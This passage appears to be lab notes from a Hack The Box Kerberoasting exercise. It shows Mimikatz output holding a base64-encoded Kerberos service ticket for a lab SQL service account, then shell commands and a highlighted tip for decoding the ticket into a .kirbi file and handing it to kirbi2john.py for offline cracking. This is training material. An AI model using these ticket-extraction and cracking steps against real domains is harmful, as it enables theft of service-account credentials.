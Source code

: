 ```cmd-session
UEf4gOF6zAfieo91LDcryDpi1UII0SKIiT0yr9IQGR3TssVnl70acuNac6eCC+Uf
vyd7g9gYH/9aBc8hSBp7RizrAcN2HFCVJontEJmCfBfCk0Ex23G8UULFic1w7S6/
V9yj9iJvOyGElSk1VBRDMhC41712/sTraKRd7rw+fMkx7YdpMoU2dpEj9QQNZ3GR
XNvGyQFkZp+sctI6Yx/vJYBLXI7DloCkzClZkp7c40u+5q/xNby7smpBpLToi5No
ltRmKshJ9W19aAcb4TnPTfr2ZJcBUpf5tEza7wlsjQAlXsPmL3EF2QXQsvOc74Pb
TYEnGPlejJkSnzIHs4a0wy99V779QR4ZwhgUjRkCjrAQPWvpmuI6RU9vOwM50A0n
h580JZiTdZbK2tBorD2BWVKgU/h9h7JYR4S52DBQ7qmnxkdM3ibJD0o1RgdqQO03
TQBMRl9lRiNJnKFOnBFTgBLPAN7jFeLtREKTgiUC1/aFAi5h81aOHbJbXP5aibM4
eLbj2wXp2RrWOCD8t9BEnmat0T8e/O3dqVM52z3JGfHK/5aQ5Us+T5qM9pmKn5v1
XHou0shzgunaYPfKPCLgjMNZ8+9vRgOlry/CgwO/NgKrm8UgJuWMJ/skf9QhD0Uk
T9cUhGhbg3/pVzpTlk1UrP3n+WMCh2Tpm+p7dxOctlEyjoYuQ9iUY4KI6s6ZttT4
tmhBUNua3EMlQUO3fzLr5vvjCd3jt4MF/fD+YFBfkAC4nGfHXvbdQl4E++Ol6/LX
ihGjktgVop70jZRX+2x4DrTMB9+mjC6XBUeIlS9a2Syo0GLkpolnhgMC/ZYwF0r4
MuWZu1/KnPNB16EXaGjZBzeW3/vUjv6ZsiL0J06TBm3mRrPGDR3ZQHLdEh3QcGAk
0Rc4p16+tbeGWlUFIg0PA66m01mhfzxbZCSYmzG25S0cVYOTqjToEgT7EHN0qIhN
yxb2xZp2oAIgBP2SFzS4cZ6GlLoNf4frRvVgevTrHGgba1FA28lKnqf122rkxx+8
ECSiW3esAL3FSdZjc9OQZDvo8QB5MKQSTpnU/LYXfb1WafsGFw07inXbmSgWS1Xk
VNCOd/kXsd0uZI2cfrDLK4yg7/ikTR6l/dZ+Adp5BHpKFAb3YfXjtpRM6+1FN56h
TnoCfIQ/pAXAfIOFohAvB5Z6fLSIP0TuctSqejiycB53N0AWoBGT9bF4409M8tjq
32UeFiVp60IcdOjV4Mwan6tYpLm2O6uwnvw0J+Fmf5x3Mbyr42RZhgQKcwaSTfXm
5oZV57Di6I584CgeD1VN6C2d5sTZyNKjb85lu7M3pBUDDOHQPAD9l4Ovtd8O6Pur
+jWFIa2EXm0H/efTTyMR665uahGdYNiZRnpm+ZfCc9LfczUPLWxUOOcaBX/uq6OC
AQEwgf6gAwIBAKKB9gSB832B8DCB7aCB6jCB5zCB5KAbMBmgAwIBF6ESBBB3DAVi
Ys6KmIFpubCAqyQcoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiGDAWoAMCAQGhDzAN
GwtodGItc3R1ZGVudKMHAwUAQKEAAKURGA8yMDIyMDIyNDIzMzYyMlqmERgPMjAy
MjAyMjUwODU1MjVapxEYDzIwMjIwMzAzMjI1NTI1WqgVGxNJTkxBTkVGUkVJR0hU
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```

If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files.

**Preparing the Base64 Blob for Cracking**

```shell-session
carbonlky@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```

**Placing the Output into a File as .kirbi**

```shell-session
carbonlky@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

<mark style="color:orange;">If mimikatz was ran with this command</mark> <mark style="color:orange;"></mark><mark style="color:orange;">`mimikatz # kerberos::list /export`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">we won't have to prepare the base64 blob and decode. Instead we could put the kirbi file to kirbi2john.py directly.</mark>
